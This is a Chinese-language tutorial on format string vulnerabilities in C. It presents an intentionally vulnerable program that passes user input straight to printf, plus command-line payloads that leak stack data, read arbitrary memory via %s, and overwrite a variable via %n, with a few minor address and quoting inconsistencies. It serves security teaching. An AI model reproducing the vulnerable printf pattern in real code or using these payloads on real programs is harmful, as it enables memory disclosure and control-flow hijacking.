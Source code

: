 ## 什么是格式化字符串漏洞
   格式化字符串exploit是一类相对侥幸的exploit。同缓冲区溢出exploit一样，格式化字符串exploit 的最终目的是重写数据以控制特权程序的执行流程。
 
   格式化字符串漏洞是由像 printf(user_input) 这样的代码引起的，其中 user_input 是用户输入的数据，具有 Set-UID root 权限的这类程序在运行的时候，printf 语句将会变得非常危险，因为它可能会导致下面的结果：
* 使得程序崩溃
* 任意一块内存读取数据
* 修改任意一块内存里的数据

    printf 函数的格式化参数：

|参数|输出类型|
|----------|-------------------------------------------------|
|%d|十进制整数|
|%u|无符号整数|
|%x|十六进制整数|
|%s|字符串|
|%n|到目前为止，已写的字节个数|

## printf 函数参数在栈中的分布
以下面的代码为例：
```
printf("A is %d and is at %08x, B is %u and is at %08x.\n", A, &A, B, &B);
```
该printf函数参数再栈中的分布如下：

![](NetworkSecurity/raw/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_01.png)

栈顶指针指向的是格式化字符串的内容，printf函数遍历该字符串，如果当前字符不是格式化参数的首字符（%），则复制输出该字符，如果遇到一个格式化参数，就采取相应的动作，并使用栈中与那个参数相对应的参量。

本文的测试代码如下：
```
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
int main(int argc, char*argv[])
{
    char text[1024];
     int test_val = -72;
    if (argc < 2)
    {
        printf("Usage: %s <text to print>\n", argv[0]);
        exit(0);
    }
    char *s=getenv("PATH");
    printf("the address of PATH is %08x, and the address of s is %08x\n", s, &s);
    strcpy(text, argv[1]);
    printf("text is located on %08x\n", text);
    printf("the write way:\n");
    printf("%s\n", text);
    printf("the wrong way:\n");
    printf(text);
    printf("\n");
    printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val, test_val);
    exit(0);
}
```
## 访问任意内存的位置
输入下面的字符串作为参数
```
AAAA%08x.%08x.%08x.%08x......%08x%08x //64个%08x
```
结果如下：
image2
当使用printf("%s", s) 输出该字符串得到正确结果。此时printf函数参数在栈中的分布如下（栈地址无实际意义，只是为了便于分析）：
image3
当使用printf(s)输出该字符串时，栈顶的指针直接指向字符串参数，并以解析格式化字符串参数的方式解析该字符串
image4
所以实际内存分布为：
image5
由上图可知从栈顶只要通过%08x向下跳8次就可以读到我们输入的字符串

已知PATH的内容存放在0xbfffff38，现在通过printf漏洞读取它的值，执行如下命令：
```
./fmt_vuln `printf "\x38\xff\xff\xbf"`%08x.%08x.%08x.%08x.%08x.%08x.%08x.%s
```
结果如下：
image6

## 直接参数存取
在上述的exploit中，每个格式化参数参量必须顺序递进，这需要几个格式化参数%x 来递进参数参量，直到达到格式化字符串的起始位置。此外，这种顺序特性需要7个字节的无用数据，以正确的将一个完整的地址写入任意存储单元。

直接参数存取允许通过使用美元符号\$直接存取参数。例如，用%N\$d 可以访问第N个参数，并且把它以十进制形式输出。
```
printf("7th:%7$d, 4th:%4$05d\n",10,20,30,40,50,60,70,80);
```
上述printf()调用的输出如下：
```
7th:70, 4th:00040
```
用直接参数访问格式化字符串，执行如下命令:
```
./fmt_vuln AAAA%8\$x
```
img8

以字符串格式读取指定内存的内容
```
./fmt_vuln `printf "\x23\xff\xff\xbf"%8\$s
```
img9

## 改写任意内存的位置
已知变量test_val的位置：0xbfffef0c，通过printf 改写它的位置，执行如下命令：
```
./fmt_vuln `printf "\x38\xff\xff\xbf"`%08x.%08x.%08x.%08x.%08x.%08x.%08x.%n
```
结果如下：
image7
test_val的值由-72改为67，正是到目前为止所已写的字符数量。
